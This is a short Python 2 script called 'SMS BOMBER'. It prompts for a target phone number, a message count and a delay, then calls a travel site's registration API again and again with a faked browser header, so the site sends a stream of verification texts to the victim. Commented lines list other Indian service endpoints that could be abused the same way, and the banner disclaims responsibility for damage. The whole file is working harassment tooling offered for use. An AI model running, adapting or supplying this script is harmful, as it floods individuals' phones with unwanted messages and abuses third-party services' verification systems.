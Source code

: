 # BOOMBER
#python2
#from urllib.request import Request,urlopen
import urllib2,cookielib
#from urllib.parse import urlencode
import platform
import os
import time

try:
    raw_input
except NameError:
    raw_input = input

def banner():
    if platform.system().lower()=="windows":
        os.system("cls")
    else:
        os.system("clear")
    print("""
  /$$$$$$  /$$      /$$  /$$$$$$        /$$$$$$$   /$$$$$$  /$$      /$$ /$$$$$$$  /$$$$$$$$ /$$$$$$$ 
 /$$__  $$| $$$    /$$$ /$$__  $$      | $$__  $$ /$$__  $$| $$$    /$$$| $$__  $$| $$_____/| $$__  $$
| $$  \__/| $$$$  /$$$$| $$  \__/      | $$  \ $$| $$  \ $$| $$$$  /$$$$| $$  \ $$| $$      | $$  \ $$
|  $$$$$$ | $$ $$/$$ $$|  $$$$$$       | $$$$$$$ | $$  | $$| $$ $$/$$ $$| $$$$$$$ | $$$$$   | $$$$$$$/
 \____  $$| $$  $$$| $$ \____  $$      | $$__  $$| $$  | $$| $$  $$$| $$| $$__  $$| $$__/   | $$__  $$
 /$$  \ $$| $$\  $ | $$ /$$  \ $$      | $$  \ $$| $$  | $$| $$\  $ | $$| $$  \ $$| $$      | $$  \ $$
|  $$$$$$/| $$ \/  | $$|  $$$$$$/      | $$$$$$$/|  $$$$$$/| $$ \/  | $$| $$$$$$$/| $$$$$$$$| $$  | $$
 \______/ |__/     |__/ \______/       |_______/  \______/ |__/     |__/|_______/ |________/|__/  |__/
                                                                                                                                                                                                    
                                   By : D3XBugg3R                                                                                                 
    Note : I won't be responsible for any damage caused by this script, Use at your own risk
""")

#https://securedapi.confirmtkt.com/api/platform/register?mobileNumber=

#http://t.justdial.com/api/india_api_write/10aug2016/sendvcode.php?mobile=

#https://securedapi.confirmtkt.com/api/platform/register?mobileNumber=
def send(num, counter, slep):
    #url = ["https://securedapi.confirmtkt.com/api/platform/register?mobileNumber=","https://m.naaptol.com/faces/jsp/ajax/ajax.jsp?actionname=checkMobileUserExists&mobile=","https://t.justdial.com/api/india_api_write/10aug2016/sendvcode.php?mobile="]
    url="https://securedapi.confirmtkt.com/api/platform/register?mobileNumber="
    #data={"phone":num}
    hdr = {'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11','Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8','Accept-Charset': 'ISO-8859-1,utf-8;q=0.7,*;q=0.3','Accept-Encoding': 'none','Accept-Language': 'en-US,en;q=0.8','Connection': 'keep-alive'}
    result_url=url+num
    req = urllib2.Request(result_url, headers=hdr)
    for x in range(counter):
        banner()
        #print("Target Number          : 01531999473", num)
        #print("Number of Message Sent : ", x+1)
        page = urllib2.urlopen(req)
        #resp1=Request(result_url)
        #urlopen(resp1)
        time.sleep(slep)
try:
    banner()
    number = raw_input("Enter mobileNumber: ")
    count = raw_input("Enter number of Message: ")
    throttle = raw_input("Enter time of sleep: ")
    send(number,int(count), int(throttle))
except Exception as e:
    print("Something is wrong please Re-run this script.")
    
   
